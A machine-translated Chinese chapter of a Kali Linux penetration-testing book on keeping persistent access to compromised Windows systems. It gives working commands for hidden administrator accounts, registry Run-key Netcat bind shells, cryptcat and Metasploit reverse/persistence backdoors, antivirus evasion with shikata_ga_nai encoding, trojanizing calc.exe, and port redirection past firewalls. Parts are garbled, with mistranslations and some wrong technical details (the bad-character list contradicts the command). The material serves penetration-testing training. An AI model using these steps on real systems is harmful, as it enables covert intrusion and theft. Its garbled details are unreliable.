







# 六、利用之后——持久化

攻击者杀伤链的最后一个阶段是“命令、控制和通信”阶段，在此阶段，攻击者依靠与受损系统的持久连接来确保他们能够继续保持控制。

为了有效，攻击者必须能够维持**交互持久性**——他们必须与被攻击系统（交互）有一个双向通信通道，该系统在受损系统上停留很长一段时间而未被发现（持久性）。由于以下原因，这种类型的连接是必需的：

*   可以检测到网络入侵，并且可以识别和修补受损系统
*   有些攻击只工作一次，因为该漏洞是间歇性的，攻击会导致系统失败，或者因为攻击会迫使系统更改，从而使该漏洞无法使用
*   出于各种原因，攻击者可能需要多次返回同一目标
*   目标的有用性并不总是在其被破坏时立即知道

用于维护交互持久性的工具通常由经典术语引用，如**后门**或**rootkit**。然而，自动恶意软件和人为攻击长期存在的趋势模糊了传统标签的含义；因此，我们将恶意软件称为**持久性代理**，旨在在受损系统上长期驻留。

这些持久代理为攻击者和渗透测试人员执行许多功能，包括：

*   允许上载其他工具以支持新的攻击，尤其是针对位于同一网络上的系统的攻击。
*   方便从受损系统和网络中过滤数据。
*   允许攻击者重新连接到受损系统，通常通过加密通道来避免检测。已知持久性代理在系统上停留了一年多。
*   采用反防御技术以避免被发现，包括隐藏在目标的文件系统或系统内存中、使用强身份验证和使用加密。

在本章中，您将了解以下内容：

*   损害现有系统和应用文件以进行远程访问
*   创建持久代理
*   使用 Metasploit 框架维护持久性
*   重定向端口以绕过网络控制

# 破坏现有系统和应用文件进行远程访问

最好的持久代理是不需要隐藏的代理，因为它是受损系统现有文件结构的一部分；攻击者只需添加某些功能即可将常规系统文件和应用转换为永久代理。这种方法几乎永远无法被入侵检测系统等安全控制系统检测到。

## 远程启用 Telnet 服务

用于维护远程访问的一种技术是使用 Metasploit 框架在 Windows 平台上启用 Telnet 服务，并使用它提供持久性。

第一步是破坏目标系统以获得 MeterMeter 会话（迁移会话以确保稳定的 shell），然后提升访问权限。

接下来，使用以下命令获取本地命令 shell 以访问目标系统：

```
meterpreter> execute -H -f cmd -i

```

执行此命令时，将创建一个交互命令 shell（`-i`），作为隐藏进程（`-H`）。

使用 shell 的命令提示符，创建一个新的用户帐户。在创建用户帐户以确保持久性时，许多攻击者使用以下两部分策略：

*   创建一个帐户，该帐户的名称将在调查危害时引起注意（例如，Leet7737）
*   使用以下命令创建一个似乎属于正常系统功能的帐户，例如`Service_Account`：

    ```
    C:\net user Service_Account password /ADD
    C:\net localgroup administrators Service_Account /ADD

    ```

创建新用户帐户后，退出 Windows 命令行。

要启用 Telnet，请从`meterpreter`提示符运行以下命令：

```
run gettelnet -e

```

上一个命令的执行如以下屏幕截图所示：


上一个屏幕截图中显示的脚本在受损系统上创建了一个持久的 Telnet 服务。要访问它，请使用 Telnet 协议连接到系统的 IP 地址，并提供用于创建帐户的用户名和密码，如以下屏幕截图所示：


Telnet 服务将持续存在，直到被删除。不幸的是，使用 Telnet 有一些限制：它很容易被检测到（特别是因为凭证是以明文形式传输的），并且它只能在命令行模式下工作。

但是，如果需要 GUI 来访问受损系统上的某些应用，该怎么办？

## 远程启用 Windows 终端服务

确保远程访问的最可靠的技术之一是持续启用 Windows 终端服务，也称为远程桌面协议（**RDP**）。为此，您必须具有管理员权限并了解目标操作系统的版本。

例如，如果目标是 Windows 7，则使用`meterpreter`获取目标上的交互式命令 shell，然后输入以下命令来更改注册表：

```
C:\ reg add "hklm\system\currentControlSet\Control\Terminal
  Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f
C:\reg add "hklm\system\currentControlSet\Control\Terminal
  Server" /v "fDenyTSConnections" /t REG_DWORD /d 0x0 /f 

```

要确保 RDP 将通过客户端防火墙，请使用以下命令添加规则：

```
C:\ netshadvfirewall firewall set rule group="remote desktop"new enable=Yes

```

现在，我们可以使用以下命令启动 RDP 服务：

```
C:\net start Termservice

```

启动 RDP 的变化尚未持续；每次启动计算机时，使用以下命令启动 RDP：

```
C:\sc configTermService start= auto

```

启用 RDP 的过程并不太复杂，但应该编写脚本以减少出错的可能性，尤其是在使用系统注册表时。幸运的是，`meterpreter`框架使用`GETGUI`脚本自动启用 RDP 服务。

当从`meterpreter`提示符运行时，以下屏幕截图中显示的命令行创建帐户的用户名和密码，在登录屏幕中隐藏帐户，并对注册表进行必要的更改以保持持久性。下面的屏幕截图显示了用于创建用户名的命令，该用户名似乎是具有简单密码的合法帐户（服务帐户）。


要连接到受损的远程桌面，请使用 Kali 的**rdesktop**程序。

## 远程启用虚拟网络计算

如果系统包含已知受到危害的应用（尤其是远程访问程序），则可能利用现有漏洞对系统进行攻击。例如：

*   可以从注册表中提取某些程序的远程访问密码。VNC 将密码存储在注册表中，可以通过手动提取注册表项或上传并执行应用（如 NirSoft 的 VNCPassView）来获取密码。
*   不同版本的 VNC 包含不同的漏洞，可利用这些漏洞危害应用并获得对系统的远程访问。如果用户安装了当前版本，则可以卸载该版本并在其位置安装旧版本。由于版本之间的功能相似，用户可能不会注意到替换，但攻击者可以使用在较旧的 VNC 版本中发现的身份验证绕过漏洞攻击来维持在泄露后阶段的访问。

Metasploit 具有的功能，可以使用 VNCINJECT 模块将 VNC 直接引入到被利用的系统中。

在下面的屏幕截图中，选择 VNC 作为有效载荷，而不是常规的`reverse_TCP`外壳：



此攻击不需要任何身份验证。如果您正在测试客户端站点，请确保所有易受攻击的应用都已从受损系统中删除。一旦证明存在其他漏洞，您已经创建了一个可被任何其他攻击者发现和使用的访问点！

# 使用持久性药剂

传统上，攻击者会在受损系统上设置后门，如果**前门**向合法用户提供授权访问，则后门应用允许攻击者返回受攻击的系统并访问服务和数据。

不幸的是，传统的后门提供了有限的交互性，并且没有被设计为在受损系统上持续很长时间。这被攻击者群体视为一个重大缺陷，因为一旦发现并移除后门，就需要进行额外的工作来重复危害步骤并利用系统进行攻击，而预先警告的系统管理员保护网络及其资源使这一点更加困难。

卡利现在专注于持久性药物，如果使用得当，更难检测。我们将回顾的第一个工具是久负盛名的 Netcat。

## 使用 Netcat 作为持久性代理

Netcat 是一个应用，它支持使用“原始”TCP 和 UDP 数据包从网络连接读取数据和向网络连接写入数据。与由 Telnet 或 FTP 等服务组织的数据包不同，Netcat 的数据包不附带特定于该服务的报头或其他通道信息。这简化了通信，并允许几乎通用的通信通道。

Netcat 的最后一个稳定版本是 1996 年由霍比特人发布的，它仍然像以前一样有用；事实上，它经常被称为**TCP/IP 瑞士军刀**。Netcat 可以执行许多功能，包括：

*   端口扫描
*   抓取横幅以识别服务
*   端口重定向和代理
*   文件传输和聊天，包括支持数据取证和远程备份
*   在受损系统上用作后门或交互式持久代理

此时，我们将重点关注使用 Netcat 在受损系统上创建持久性外壳。尽管以下示例使用 Windows 作为目标平台，但在基于 Unix 的平台上使用时，其功能相同。

在下面的截图所示的示例中，我们将保留可执行文件的名称—`nc.exe`；但是，通常在使用前对其进行重命名，以尽量减少检测。即使它被重命名，通常也会被防病毒软件识别；许多攻击者会更改或删除 Netcat 源代码中不需要的元素，并在使用前重新编译；此类更改可能会改变防病毒程序用于将应用标识为 Netcat 的特定签名，从而使其对防病毒程序不可见。

Netcat 存储在`/usr/share/windows-binaries`存储库中的 Kali 上。要将其上传到受损系统，请在`meterpreter`中输入以下命令：

```
meterpreter> upload/usr/share/windows-binaries/nc.exe
C:\\WINDOWS\\system32 

```

上一个命令的执行如以下屏幕截图所示：



您不必专门将其放在`system32`文件夹中；但是，由于此文件夹中文件类型的数量和多样性，这是在受损系统中隐藏文件的最佳位置。

### 提示

在一台客户机上进行渗透测试时，我们在一台服务器上识别出六个独立的 Netcat 实例。Netcat 已由两名独立的系统管理员安装两次，以支持网络管理；其他四个实例由外部攻击者安装，直到渗透测试后才被识别。因此，务必查看您的目标上是否已安装 Netcat！

如果您没有`meterpreter`连接，可以使用**普通文件传输协议**（**TFTP**）传输文件。

接下来，使用以下命令将注册表配置为在系统启动时启动 Netcat，并确保它正在侦听端口 444（或您选择的任何其他端口，只要未使用）：

```
meterpreter>reg setval -k
  HKLM\\software\\microsoft\\windows\\currentversion\\run -vv nc
  -d 'C:\\windows\\system32\\nc.exe -Ldp 444 -e cmd.exe' 

```

使用以下`queryval`命令确认注册表中的更改已成功实施：

```
meterpreter>reg queryval -k
  HKLM\\software\\microsoft\\windows\\currentverion\\run -vv nc 

```

使用`netsh`命令，在本地防火墙上打开一个端口，以确保受损系统将接受到 Netcat 的远程连接。了解目标的操作系统很重要。对于 Windows Vista 和 Windows Server 2008 及更高版本，`netsh advfirewall firewall`命令行上下文是用于；`netsh firewall`命令用于早期的操作系统。

要向本地 Windows 防火墙添加端口，请在`meterpreter`提示符下输入`shell`命令，然后使用相应的命令输入`rule`。命名`rule`时，使用`svchostpassthrough`等名称，表明`rule`对系统的正常运行很重要。示例命令如下所示：

```
C:\Windows\system32>netsh firewall add portopening TCP 444
  "service passthrough" 

```

使用以下命令确认更改已成功实施：

```
C:\windows\system32>netsh firewall show portopening

```

上述命令的执行如以下屏幕截图所示：



确认端口规则后，请确保重新启动选项有效。

*   在`meterpreter`提示符下输入以下命令：

    ```
    meterpreter> reboot

    ```

*   从交互式 Windows shell 中输入以下命令：

    ```
    C:\windows\system32>shutdown –r –t 00

    ```

要远程访问受损系统，在命令提示下键入`nc`，指示连接的详细程度（`-v`报告基本信息，`-vv`报告更多信息），然后输入目标的 IP 地址和端口号，如下图所示：


不幸的是，使用 Netcat 有一些限制—传输的数据没有身份验证或加密，几乎所有防病毒软件都能检测到。

可以使用**cryptcat**一种 Netcat 变体**cryptcat**解决缺乏加密的问题，该变体使用 Twofish 加密在受攻击主机和攻击者之间传输数据时保护数据。Twofish encryption 由 Bruce Schneier 利用，是一种先进的对称分组密码，为加密数据提供了相当强大的保护。

要使用`cryptcat`，请使用以下命令确保已准备好侦听器并配置了强密码：

```
root@kali:~# cryptcat –k password –l –p 444

```

接下来，上传`cryptcat`到受损系统，并使用以下命令将其配置为连接到侦听器的 IP 地址：

```
C:\cryptcat –k password <listener IP address> 444

```

不幸的是，大多数防病毒应用仍然可以检测到 Netcat 及其变体。可以使用十六进制编辑器来更改 Netcat 的源代码，从而使 Netcat 不可检测；这将有助于避免触发防病毒软件的签名匹配操作，但这可能是一个漫长的试错过程。更有效的方法是利用 Metasploit 框架的持久性机制。

# 使用 Metasploit 框架维护持久性

Metasploit 的`meterpreter`包含多个脚本，可在受损系统上支持持久性。我们将研究在受损系统上放置后门的两个脚本选项：`metsvc`和`persistence`。

## 使用 metsvc 脚本

`metsvc`脚本是`meterpreter`的网络服务包装器，允许将其用作 Windows 服务或作为命令行应用运行。它通常用作后门，以维持与受损系统的通信。

要使用`metsvc`，首先对系统进行妥协，然后将`meterpreter`迁移到`explorer.exe`流程，以获得更稳定的外壳。

通过调用`run`命令执行`metsvc`代理，如下图所示。如您所见，它创建一个临时安装目录，上传三个文件（`metsrv.dll`、`metsvc-server.exe`、`metsvc.exe`，然后启动`metsvc`。


为了与持久性`metsvc`代理交互，攻击者打开 Metasploit 框架并选择具有有效负载`windows/metsvc_bind_tcp`的`use exploit/multi/handler`，如下图所示。还设置了其他参数（IP 地址和端口）。



当执行`exploit`命令时，两个系统之间直接打开一个会话，允许从`meterpreter`命令行升级权限和其他功能。`exploit`命令的执行如下图所示：


`metsvc`脚本不需要身份验证；一旦代理就位，任何人都可以使用它访问受损系统。大多数攻击者在不更改源代码的情况下都不会使用此方法，因此需要进行身份验证，或者确保有某种方法可以过滤掉远程连接。

更重要的是，这不是一次秘密攻击。任何列出正在运行的进程的尝试，例如从`meterpreter`提示符输入`ps`命令，都将识别`metsvc`服务以及可执行文件正在`Temp`目录下运行的事实，这是非常可疑的！在以下屏幕截图中，临时文件夹中随机名称为（CvjrsZWOMK）的目录是系统已被破坏的明显标志：


对`Temp`文件夹的简单检查将识别出三个恶意文件，如以下屏幕截图所示；但是，在手动检查发现这些病毒之前，通常会由防病毒软件进行标记。



## 使用持久性脚本

获得持久性的一种更有效的方法是使用`meterpreter`提示符的`persistence`脚本。

在系统被攻击且 migrate 命令将初始 shell 移动到更安全的服务后，攻击者可以从`meterpreter`提示符调用`persistence`脚本。

在命令中使用`-h`将识别用于创建持久后门的可用选项，如以下屏幕截图所示：


在下面的屏幕截图中显示的示例中，我们已将`persistence`配置为在系统启动时自动运行，并尝试每 10 秒连接到我们的侦听器。侦听器被标识为具有特定 IP 地址和端口的远程系统（`-r`。此外，我们可以选择使用`-U`选项，当用户登录系统时，该选项将启动持久性。



### 注

注意，我们任意选择了端口 444 供持久性使用；攻击者必须验证本地防火墙设置以确保此端口已打开，或者使用`reg`命令打开该端口。与大多数 Metasploit 模块一样，只要尚未使用，就可以选择任何端口。

`persistence`脚本将 VBS 文件放置在临时目录中；但是，您可以使用`-L`选项指定不同的位置。该脚本还将该文件添加到注册表的本地自动运行部分。

由于`persistence`脚本未通过身份验证，任何人都可以使用它访问受损系统，因此在发现或完成渗透测试后，应尽快将其从系统中删除。要删除脚本，请确认要清理的资源文件的位置，然后执行以下`resource`命令：

```
meterpreter> run multi_console_command -rc
  /root/.msf4/logs/persistence/RWBEGGS-
  1E69067_20130920.0024/RWBEGGS-1E69067_20130920.0024.rc 

```

# 使用 Metasploit 创建独立的持久代理

Metasploit 框架可用于创建一个独立的可执行文件，该文件可在受损系统上持久保存，并允许交互通信。独立软件包的优点是可以提前准备和测试，以确保连接，并对其进行编码以绕过本地防病毒软件。

要制作一个简单的独立代理，请在 Kali 的命令提示符下启动`msfconsole`。

使用`msfpayload`来制作持久性代理。在以下屏幕截图所示的示例中，代理被配置为使用一个`reverse_tcp`外壳，该外壳将在端口`4444`上的`192.168.43.130`处连接到本地主机。名为`attack1.exe`的代理将使用 win32 可执行模板。



单机版代理仅在未安装防病毒软件的受损系统上工作，或者在使用相应的`meterpreter`命令首先禁用防病毒软件的情况下工作。要绕过防病毒，必须对后门进行编码。

有几个不同的选项用于编码有效负载，如以下屏幕截图所示：


要查看可用选项，请使用`show encoders`命令。

Metasploit 使用大约 30 种不同的编码器；默认情况下，如果未指定编码器，它将选择最合适的编码器。

一个好的通用编码器是`shikata_ga_nai`。该编码器针对 4 字节密钥实现多态异或加性反馈编码，是 Metasploit 唯一一个评为“优秀”的编码器。

要对先前准备的`attack.exe`代理进行编码，我们使用以下命令：

```
msf>msfencode -i attack.exe -o encoded_attack.exe -e
  x86/shikata_ga_nai -c 5 -t exe 

```

这将使用`shikata_ga_nai`协议对`attack.exe`代理进行五次编码。每次它被重新编码，就变得更加难以检测。但是，可执行文件的大小也会增加。

完全有效负载可以直接从 Kali 中的命令行创建。不仅可以对其进行编码，还可以配置编码模式以避免某些字符。例如，在编码持久代理时，应避免使用以下字符，因为它们可能导致攻击的发现和失败：

*   `\x00`表示一个 0 字节的地址
*   `\xa0`表示换行
*   `\xad`表示回车

要创建多重编码的有效负载，请使用以下命令：

```
msf>msfpayload windows/meterpreter/bind_tcp
  LPORT=444 R| msfencode -e x86/shikata_ga_nai -c 5 -t raw -a
  x86 -b '\x00\x0a\x0d' -c 5 -x /root/Desktop/attack.exe -o
  /root/Desktop/encoded_attack.exe 

```

您还可以将`msfpayload`编码到现有的可执行文件中，修改后的可执行文件和持久代理都将正常工作。要将持久代理绑定到计算器（`calc.exe`等可执行文件，请首先将适当的`calc.exe`文件复制到位于`/usr/share/metasploit-framework/data/templates`的 Metasploit 模板文件夹中。模板就位后，请使用以下命令：

```
msf>msfpayload windows/meterpreter/bind_tcp
  LPORT=444 R| msfencode -t exe -* calc.exe -k -o
  encoded_calc_attack.exe -e x86/shikata_ga_nai -c 5 

```

代理可以放置在目标系统上，重命名为`calc.exe`以替换原来的计算器，然后执行。

不幸的是，客户端防病毒软件几乎可以检测到所有 Metasploit 编码的可执行文件。这归因于渗透测试人员向 VirusTotal（[www.VirusTotal.com](http://www.virustotal.com)等网站提交了加密有效载荷。但是，您可以创建一个可执行文件，然后使用面纱规避对其进行加密，如[第 4 章](04.html "Chapter 4. Exploit")、*利用*中所述。

# 重定向端口以绕过网络控制

到目前为止，我们已经检查了对被攻击系统的远程控制访问，就好像我们在受害者和攻击者的机器之间有直接连接一样；然而，这种连接经常由网络设备（如防火墙）控制或阻止。

攻击者可以使用端口重定向绕过这些控制，端口重定向是一个指定的系统，侦听定义的端口并将原始数据包转发到特定的辅助位置。

Kali 提供了几种支持端口重定向的工具，包括`nc`、`cryptcat`、`socat`、`ssh`、`fpipe`和 Metasploit 的`meterpreter`；我们将在以下部分中查看一些示例。

## 示例 1–简单端口重定向

例如，如果您在**非军事区**（**DMZ**中的破坏了网络外部的系统，并且需要能够从远程位置与内部系统通信，则可以使用简单端口重定向。

在 DMZ 中的受损系统上，配置 Netcat 实例以侦听传入命令，并使用以下命令将其转发给目标：

```
root@kali:~# nc -l -p 44444 -e <TAGET IP> 444

```

此命令将调用 Netcat（`nc`）监听（`-l`）传入流量，并执行（`-e`）将此传入流量传输到端口`444`上的目标。端口不是固定的，并且侦听/转发主机和最终目标上的端口不必相同。

如果缺少有关目标内部网络的完整信息，可以尝试以下命令：

```
root@kali:~# nc -l -p <local listening port> -c "nc <TARGET IP> 
  <TARGET port> 

```

此命令将 Netcat 的本地（攻击者）实例设置为在指定端口上侦听（`-l`，然后指示 Netcat 使用每个新连接创建新进程（`-c`。

这个简单的例子允许外部人员连接到直接网络；但是，它不允许双向数据连接，这是某些工具所必需的。

## 示例 2–双向端口重定向

考虑三个单独的 Windows 数据系统：

[攻击者]|[转发器]|[目标]

为了使用 Netcat 启用双向通信通道，我们必须使用命名管道。命名管道（也称为 FIFO）是创建定义的进程间通信的一种方法；这允许我们将其作为对象处理，从而在发出命令时更易于管理。在下面的示例攻击中，我们创建了一个名为`reverse`的命名管道来处理双向通信。

攻击者使用以下命令将其本地系统上的 Netcat 实例设置为侦听端口`6661`：

```
nc -l 6661

```

转发器是一个安装了 Netcat 实例的受损盒子，它将侦听传入的数据包并将其转发给目标；配置为使用以下命令监听端口`6666`：

```
nc -l 6666

```

在目标系统上，输入以下命令以创建命名管道：

```
mkfifo reverse

```

然后，使用以下命令配置 Netcat 的本地实例，以使用该命名管道跨转发系统与攻击者建立双向通信：

```
nc localhost 6661 0<reverse | nc localhost 6666 1>reverse

```

使用`socat`可以实现相同的双向数据流，其设计用于实现这种类型的连接。此示例的命令将从目标系统执行，并使用：

```
socat tcp:localhost:6661 tcp:localhost:6646

```

# 总结

在本章中，我们重点讨论了攻击者杀伤链的最后一个阶段，即命令、控制和通信阶段，在此阶段，攻击者使用持久代理与受损系统通信。

本书的第一部分到此结束，我们详细检查了攻击者的杀伤链，以了解如何将其应用于破坏网络或隔离系统。

在[第 2 部分](sec2.html "Part 2. The Delivery Phase")、*交付阶段*中，我们将使用各种利用路径检查杀伤链的具体应用。在[第 7 章](07.html "Chapter 7. Physical Attacks and Social Engineering")、*物理攻击和社会工程*中，我们将重点关注物理安全和社会工程攻击。主题将包括攻击方法的概述、恶意 USB 设备和流氓微型计算机的制作、社会工程工具包，以及测试系统对钓鱼攻击的恢复能力。